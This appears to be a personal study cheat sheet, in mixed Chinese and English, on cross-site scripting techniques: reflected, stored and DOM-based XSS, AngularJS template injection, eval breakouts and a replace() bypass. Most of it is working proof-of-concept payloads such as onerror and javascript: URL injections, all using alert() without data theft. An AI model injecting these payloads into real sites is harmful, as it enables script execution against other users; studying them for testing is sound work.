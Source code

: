 ## XSS

### Reflected XSS

* input直接反射到HTML context里

```html
<script>alert(1)<script>
```



### Stored XSS

* input先被存储浏览后执行

```
<script>alert(1)<script>
```



### DOM XSS

* DOM-based XSS，操作dom
* 特征：**document.write() / .InnerHTML / href attribute**

  * location.search: query string包含?

    

* Test flow:

  * input: g3n  

  * search in dom: g3n

  * check the logic and break out of it

    

* direct input

```html
"><svg onload=alert(1)>
```

```html
<img src=1 onerror=alert(1)>
```

* URL

```html
// change url directly when post/get
// inner html
?productId=1&storeId="></select><img src=1 onerror=alert(1)>
```

```html
// href
?returnUrl=javascript:alert(document.domain)
```



* AngularJS

  * search: ng-app
```javascript
 {{$on.constructor('alert(1)')()}} 
```

  

### Reflected DOM XSS

* eval

```javascript
\"+alert(1)}//

\": close the prefix
+ : math eval
// : comment out the rest
```



### Stored DOM XSS

* Replace： 默认只替换第一个

```html
<><img src=1 onerror=alert(1)>
```

